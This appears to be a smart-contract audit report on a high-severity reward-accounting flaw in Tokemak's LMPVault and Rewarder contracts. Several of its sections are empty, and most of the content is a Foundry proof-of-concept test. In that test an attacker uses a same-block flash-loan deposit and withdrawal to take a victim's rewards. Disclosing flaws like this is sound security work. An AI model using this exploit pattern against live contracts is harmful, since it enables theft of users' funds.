 Sticky Malachite Rook

high

# An attacker can steal all the rewards in the Rewarder contract because of incorrect reward accounting
## Summary

## Lines Of Code
[https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/vault/LMPVault.sol#L854-L865](https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/vault/LMPVault.sol#L854-L865)

[https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/vault/DestinationVault.sol#L345-L354](https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/vault/DestinationVault.sol#L345-L354)

## Vulnerability Detail

## Impact

## Code Snippet


## POC
```solidity
function test_rewards_accounting_issue() public {
        address victim = vm.addr(100);
	address attacker = vm.addr(200);

	_asset.mint(victim, 1000);
	_asset.mint(attacker, 30000);


	// 1.Admin queued new rewards
	_accessController.grantRole(Roles.LIQUIDATOR_ROLE, address(this));
	_toke.mint(address(this), 1000);
	_toke.approve(address(_rewarder), 1000);
	_rewarder.queueNewRewards(1000);

	// 2. Victim deposited funds to the LMPVault
	vm.startPrank(victim);
	_asset.approve(address(_lmpVault), 1000);
	_lmpVault.deposit(1000, victim);
	vm.stopPrank();

	// 3. Attacker deposited very small amount of funds to the LMPVault
	vm.startPrank(attacker);
	_asset.approve(address(_lmpVault), 10);
	_lmpVault.deposit(10, attacker);
	vm.stopPrank();

	vm.roll(block.number + 101);

	console.log("Rewards Before Attack:");
	console.log("Attacker Rewards = %s", _rewarder.earned(attacker));
	console.log("Victim Rewards   = %s\n", _rewarder.earned(victim));

	console.log("Rewards Before Attack:");

	// 4.Attacker deposits and withdraw a huge amount of funds in the same block using a flashloan
	vm.startPrank(attacker);
	_asset.approve(address(_lmpVault), 29000);
	_lmpVault.deposit(29000, attacker);
	_lmpVault.withdraw(29010, attacker, attacker);
	vm.stopPrank();


	// 5. Victim withdraw his funds from LMPVault
	vm.startPrank(victim);
	_lmpVault.withdraw(1000, victim, victim);
	vm.stopPrank();


	console.log("Attacker Rewards = %s", _toke.balanceOf(attacker));
	console.log("Victim Rewards   = %s", _toke.balanceOf(victim));

}
```

## Tool used

Manual Review

## Recommendation
